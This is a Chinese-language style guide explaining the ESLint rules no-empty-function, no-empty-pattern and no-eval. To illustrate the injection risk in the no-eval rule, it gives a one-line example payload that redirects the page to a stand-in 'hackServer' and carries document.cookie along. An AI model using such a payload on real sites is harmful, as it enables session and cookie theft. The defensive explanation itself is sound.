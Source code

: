 **[⬆ 回到目录](#目录)**

<a id='no-empty-function'></a>
## no-empty-function

- 规则含义

  禁止定义没有执行语句的空函数  
  允许箭头函数是空函数

- 规则原因

  空函数增加读代码的成本：需要猜测写的人是有什么特殊含义还是写错了

- 错误例子

      function foo() {}

- 正确例子

      function foo() {  
       // 默认函数防止报错  
      }  
      const foo = () => {}

[eslint](https://eslint.org/docs/rules/no-empty-function)

**[⬆ 回到目录](#目录)**

<a id='no-empty-pattern'></a>
## no-empty-pattern

- 规则含义

  不允许出现空解构

- 错误例子

      const {a: {}} = foo;

[eslint](https://eslint.org/docs/rules/no-empty-pattern)

**[⬆ 回到目录](#目录)**

<a id='no-eval'></a>
## no-eval

- 规则含义

  不允许使用eval

- 规则原因

  1. eval的字符串有js注入的风险：比如让用户输入四则运算eval('3 + 4'),但是黑客输入js代码:eval('window.location = /hackServer?cookie=document.cookie')  
  2. 无法debug eval中的代码

[eslint](https://eslint.org/docs/rules/no-eval)
